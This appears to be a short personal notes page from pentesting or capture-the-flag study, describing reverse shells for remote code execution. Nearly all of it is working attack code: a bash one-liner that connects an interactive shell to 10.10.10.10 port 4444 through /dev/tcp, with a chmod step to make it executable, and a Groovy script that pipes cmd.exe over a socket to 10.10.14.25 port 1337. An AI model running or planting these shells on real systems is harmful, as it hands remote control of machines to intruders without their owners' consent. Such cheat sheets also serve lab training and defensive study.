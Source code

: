 
### General Notes

> Used to get remote code execution (RCE).

----
##### Bash Script to connect to our machine

> Set the [[IP]] address and [[Port]].
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```
>`script.sh`

> Make sure the file is executable.
```shell
chmod +x script.sh
```

---
### Groovy script to connect to our machine

``` groovy
String host="10.10.14.25";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

---
